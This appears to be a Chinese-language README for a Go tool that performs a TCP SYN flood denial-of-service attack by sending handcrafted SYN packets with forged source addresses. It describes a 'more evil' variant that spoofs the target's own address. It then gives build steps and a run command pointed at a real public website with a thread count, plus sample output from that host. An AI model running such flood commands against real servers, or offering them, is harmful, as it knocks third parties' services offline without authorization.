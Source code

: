 # 构造TCP数据包实现SynFlood攻击

> 所属: Dos -> Flood -> Tcp -> SynFlood

通过手动构建TCP数据包，伪造发起请求者，使目标服务器对大量的伪造请求产生大量的空连接。

只进行第一次tcp握手，发送一个伪造源的同步数据包，使目标服务器处于等待状态

也可以使用更加邪恶的手段，将源地址改为目标地址，让目标服务器自己与自己产生错误连接

windows上的原始套接字不允许发送tcp数据, 请不要在win下尝试

实验结果:
+ 数据包大于1490，将无法突破局域网
+ 杀伤力极低，只有O(n)， 且常系数k小于1

## How to use?
```bash
# use make
make 
```
```bash
# or use go build
go build ./src/main.go
```
```bash
# ping w 指定线程数量
./ping --host www.baidu.com -w 3
```

```bash
[success] 180.101.49.11 [byte=28][TTL=52]
[success] 180.101.49.11 [byte=28][TTL=52]
[success] 180.101.49.11 [byte=28][TTL=52]
```